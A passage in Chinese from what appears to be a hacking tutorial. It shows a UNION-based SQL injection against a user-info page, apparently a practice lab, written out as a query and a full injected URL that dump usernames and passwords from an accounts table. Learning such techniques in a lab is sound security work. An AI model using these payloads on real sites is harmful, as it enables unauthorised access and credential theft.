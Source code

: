 ![](img/59b0eb82-cff2-4768-b309-b2d50e507227.png)

让我们更进一步，`select`出`accounts`表中的`usernames`和`passwords`列。因此，命令将与我们当前执行的非常相似：

```
union select 1,usernames,passwords,is_admin,5 from accounts
```

现在，请记住，我们不能在命令中选择除`1`和`5`之外的任何其他数字，因为它们从未在屏幕上显示给我们。唯一显示的数字是`2`、`3`和`4`，所以我们只需替换`2`、`3`和`4`的值。我们的 URL 命令变为以下内容：

```
index.php?page=user-info.php&username=zaid' union select 1,usernames,passwords,is_admin,5 from accounts%23&password=123456&user-info-php-submit-button=View+Account+Details
```

我们正在从`accounts`数据库中选择`username`、`password`和`is_admin`列，它应该返回`accounts`表中所有的用户名和密码。如以下截图所示，我们获得了所有的用户名和密码：

![](img/4ae314a7-f781-4d52-a27a-85c32e50a4ff.png)
